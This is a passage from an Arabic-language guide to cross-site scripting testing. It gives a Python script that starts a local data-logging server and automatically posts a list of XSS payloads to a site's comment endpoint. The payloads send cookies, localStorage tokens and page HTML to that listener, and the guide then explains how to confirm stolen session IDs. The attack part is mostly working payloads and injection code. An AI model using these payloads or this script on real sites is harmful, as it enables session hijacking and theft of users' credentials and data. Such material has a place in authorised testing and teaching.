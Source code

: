 #### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python مع خادم لتسجيل البيانات):
  ```python
  from http.server import BaseHTTPRequestHandler, HTTPServer
  import urllib.parse
  import requests

  class LogServer(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.end_headers()
          query = urllib.parse.urlparse(self.path).query
          print(f"بيانات مستلمة: {urllib.parse.parse_qs(query)}")

      def do_POST(self):
          self.send_response(200)
          self.end_headers()
          content_length = int(self.headers['Content-Length'])
          post_data = self.rfile.read(content_length).decode()
          print(f"بيانات POST مستلمة: {post_data}")

  payloads = [
      "<script>fetch('http://localhost:8000/log?c='+encodeURIComponent(document.cookie))</script>",
      "<img src='http://localhost:8000/log?d=document.domain'>",
      "<script>fetch('http://localhost:8000/log', {method: 'POST', body: document.body.innerHTML})</script>",
      "<script>new Image().src='http://localhost:8000/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>",
      "<img src=x onerror=fetch('http://localhost:8000/log?c='+encodeURIComponent(document.cookie))>"
  ]

  target_url = "https://example.com/submit-comment"
  for payload in payloads:
      try:
          requests.post(target_url, data={"comment": payload})
          print(f"تم إرسال: {payload}")
      except:
          print(f"فشل إرسال: {payload}")
  server = HTTPServer(('localhost', 8000), LogServer)
  print("تشغيل الخادم على http://localhost:8000")
  server.serve_forever()
  ```
- **كيف يعمل**:
  - يُشغل خادمًا محليًا لتسجيل البيانات.
  - يُرسل الحقن إلى نقطة إدخال (مثل حقل تعليق) عبر طلب POST.
  - يسجل البيانات المستلمة في الخادم.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار آلي لنقاط إدخال متعددة.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن البيانات المستلمة في الخادم:
    - **ملفات تعريف الارتباط**: تحقق من وجود `sessionid` أو رموز الجلسة.
    - **محتوى DOM**: تحقق من النصوص أو العناصر المستخرجة (مثل لوحة الإدارة).
    - **بيانات السياق**: تحقق من النطاق أو عنوان URL.
  - مثال: إذا تلقى الخادم `c=sessionid=abc123`، فهذا يؤكد نجاح استخراج ملفات تعريف الارتباط.
- **كيف يعمل**:
  - يتم تسجيل البيانات لتحديد الحقن الناجحة.
- **متى يُستخدم؟**:
  - لتحديد السياقات القابلة للاستغلال.
